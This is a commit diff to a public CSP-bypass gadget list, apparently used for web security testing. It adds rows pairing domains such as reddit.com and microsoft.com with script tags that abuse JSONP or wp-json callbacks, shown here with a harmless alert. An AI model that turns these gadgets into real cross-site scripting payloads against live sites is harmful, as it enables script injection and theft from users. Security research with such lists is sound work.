

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added some www variants for maximum coverage

```diff
--- a/data.tsv
+++ b/data.tsv
+row 305: www.hcaptcha.com <script src="https://www.hcaptcha.com/1/api.js?onload=alert&render=explicit"></script>
+row 306: www.indexexchange.com <script src="https://www.indexexchange.com/wp-json?_jsonp=alert"></script>
+row 307: www.ipinfo.io <script src="https://www.ipinfo.io/?format=jsonp&callback=alert"></script>
+row 310: www.microsoft.com <script src="https://www.microsoft.com/en-us/research/wp-json?_jsonp=alert"></script>
+row 312: www.paytr.com <script src="https://www.paytr.com/wp-json?_jsonp=alert"></script>
+row 313: www.readspeaker.com <script src="https://www.readspeaker.com/wp-json?_jsonp=alert"></script>
+row 316: www.reddit.com <script src="https://www.reddit.com/.json?jsonp=alert"></script>
+row 317: www.reklamstore.com <script src="https://www.reklamstore.com/wp-json?_jsonp=alert"></script>
+row 318: www.sanalofisonline.com <script src="https://www.sanalofisonline.com/wp-json?_jsonp=alert"></script>
+row 319: www.sovrn.com <script src="https://www.sovrn.com/wp-json?_jsonp=alert"></script>
+row 321: www.thebrave.io <script src="https://www.thebrave.io/wp-json?_jsonp=alert"></script>
+row 322: www.vidyome.com <script src="https://www.vidyome.com/wp-json?_jsonp=alert"></script>
+row 323: www.wildapricot.com <script src="https://www.wildapricot.com/wp-json?_jsonp=alert"></script>
```
Also changed, not shown: 9 added rows elsewhere in this file.
